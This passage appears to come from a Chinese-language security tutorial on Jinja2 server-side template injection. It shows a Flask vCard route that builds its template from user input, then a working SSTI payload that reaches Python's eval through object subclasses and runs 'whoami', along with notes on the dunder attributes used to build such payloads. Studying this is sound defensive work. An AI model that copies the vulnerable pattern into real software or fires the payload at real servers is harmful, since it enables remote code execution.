 ```py
    output = Jinja2.from_string("""BEGIN:VCARD
VERSION:2.1
N:""" + (";".join(name.split(" "))) + """
FN:""" + name + """
ORG:""" + org + """
TEL;WORK;VOICE:""" + phone + """
EMAIL:""" + email + """
REV:""" + d.isoformat() + """
END:VCARD""").render()

    # Instead, the variable should be passed to the template context.
    # Jinja2.from_string('Hello {{name}}!').render(name = name)

    return output, 200


@app.route("/")
def index():
    return render_template('index.html')


if __name__ == "__main__":
    app.run(host='0.0.0.0', port=8089)
```
页面显示的信息如下：
![image.png](http://moonsec.top/articlepic/426a87916d821715e550525b73907b9e.png)
得到的信息如下：
![image.png](http://moonsec.top/articlepic/1c68657ee81f1469fef51696c8259e83.png)
因此上述肯定存在SSTI注入的漏洞
找一个可用的poc
```py
{{().__class__.__base__.__subclasses__[177].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()')}}
```
![image.png](https://gitee.com/shine05/myblog-gallery/raw/master/img/45bcde9a7dbaa630b58bdfc8d0314422.png)
执行成功
**ps：** 该poc基于python3 ，不同的环境需要进行对应的修改
调试下，发现在\Jinja2Demo\venv\Lib\site-packages\jinja2\environment.py的from_code中调用了python3 的exec方法
![image.png](http://moonsec.top/articlepic/1268dcc65b673cde6e83d89d3c2438d0.png)

#### 3.2.1 注入思路|payload

```python
__class__ 返回调用的参数类型
__bases__ 返回类型列表
__mro__ 此属性是在方法解析期间寻找基类时考虑的类元组
__subclasses__() 返回object的子类
__globals__ 函数会以字典类型返回当前位置的全部全局变量 与 func_globals 等价

```

